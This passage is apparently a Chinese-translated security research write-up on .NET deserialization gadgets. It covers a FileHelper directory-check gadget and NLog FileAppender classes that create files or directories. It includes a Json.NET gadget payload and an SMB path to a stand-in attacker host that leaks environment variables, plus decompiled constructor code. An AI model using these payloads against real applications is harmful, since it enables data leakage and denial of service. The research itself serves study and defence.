 代码段 56 FileHelper.TestDirectoryPermissions 方法

在 \[1\] 处，代码检查目录是否存在。

如果不存在，则在 \[2\] 处创建它。

通过这种方式，攻击者可以使用此工具创建新目录或泄露环境变量。当传递以下路径时：`\\attacker\%PATHEXT%`，变量可以从 SMB 服务器日志中提取（请参阅以下截图）。

![](assets/1706773633-d5ca689893a917ce6064d2fb15bdd812.png)

图 4 通过 SMB 连接泄露环境变量

#### 2.7 NLOG – CountingSingleProcessFileAppender / SingleProcessFileAppender / MutexMultiProcessFileAppender

目标类：`NLog.Internal.FileAppenders.CountingSingleProcessFileAppender` `NLog.Internal.FileAppenders.SingleProcessFileAppender` `NLog.Internal.FileAppenders.MutexMultiProcessFileAppender`

适用性 (序列化器): `Json.NET`、`XamlReader`、`MessagePack` 和可能的其他序列化器。

适用性 (.NET): .NET Framework (.NET>=5 未经验证)

最新测试版本：5.2.4

效果：目录创建和空文件创建。如果目标应用程序以 SYSTEM 权限运行，可以通过创建目录/文件来实现拒绝服务。

小工具 (Json.NET):

```plain
{ 
    "$type":"NLog.Internal.FileAppenders.SingleProcessFileAppender, NLog,  
Version=5.0.0.0, Culture=neutral, PublicKeyToken=5120e14c03d0593c", 
    "fileName":"C:\\Users\\Public\\poc\\poc.txt", 
    "parameters": 
    { 
        "$type":"NLog.Targets.FileTarget, NLog, Version=5.0.0.0, Culture=neutral,  
PublicKeyToken=5120e14c03d0593c" 
    } 
} 
```

代码段 57 SingleProcessFileAppender

描述：

这三个小工具都基于它们的构造函数调用 `NLog.Internal.FileAppenders.BaseFileAppender.CreateFileStream`。例如：

```plain
internal class SingleProcessFileAppender : BaseFileAppender 
{ 
    public SingleProcessFileAppender(string fileName, ICreateFileParameters 
parameters) : base(fileName, parameters) 
    { 
        this._file = base.CreateFileStream(false, 0); // [1] 
        this._enableFileDeleteSimpleMonitor =  
parameters.EnableFileDeleteSimpleMonitor; 
        this._lastSimpleMonitorCheckTickCount = Environment.TickCount; 
    } 
 ... 
```
